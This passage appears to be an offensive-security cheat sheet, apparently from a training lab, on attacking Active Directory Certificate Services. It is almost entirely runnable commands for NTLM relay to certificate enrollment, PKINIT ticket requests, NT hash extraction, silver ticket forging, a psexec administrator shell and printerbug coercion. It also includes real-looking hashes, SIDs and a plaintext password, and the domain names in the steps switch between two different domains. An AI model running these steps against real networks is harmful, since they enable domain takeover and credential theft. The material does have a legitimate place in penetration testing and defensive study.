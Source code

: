 #### After coercion ntlmrelay will relay over HTTP to the web endpoint and return a base64 certificate.

```bash
# Decode certificate
echo -n "MIIRPQIBAzCCEPcGCSqGSIb3DQEHAaCCEOgEghDkMIIQ4DCCBxcGCSqGSIb3DQEHBqCCBwgwggcEAgEAMI<SNIP>U6EWbi/ttH4BAjUKtJ9ygRfRg==" | base64 -d > ws01.pfx
```

#### Get TGT ticket and AS-REP encryption key

```sh
python3 gettgtpkinit.py -dc-ip 172.16.117.3 -cert-pfx ws01.pfx 'INLANEFREIGHT.LOCAL/WS01$' ws01.ccache
```

#### Retrieve the NT hash

```bash
KRB5CCNAME=ws01.ccache python3 getnthash.py 'INLANEFREIGHT.LOCAL/WS01$' -key 917ec3b9d13dfb69e42ee05e09a5bf4ac4e52b7b677f1b22412e4deba644ebb2
```

#### Forge a silver ticket

```bash
# Lookup SID
lookupsid.py 'INLANEFREIGHT.LOCAL/WS01$'@172.16.117.3 -hashes :3d3a72af94548ebc7755287a88476460

# Forge silver ticket
ticketer.py -nthash 3d3a72af94548ebc7755287a88476460 -domain-sid S-1-5-21-1207890233-375443991-2397730614 -domain zencorp.local -spn cifs/ws01.zencorp.local Administrator

# Get a shell
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass ws01.zencorp.local
```

### <mark style="color:yellow;">Certipy</mark> <mark style="color:yellow;">**AD CS attacks**</mark>

```bash
# Run certipy relay
sudo certipy relay -target "http://172.16.117.3" -template Machine

# Trigger printerbug 
python3 printerbug.py zencorp/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.50 172.16.117.30

# Use auth command to obtain the hash
certipy auth -pfx ws01.pfx -dc-ip 172.16.117.3
```
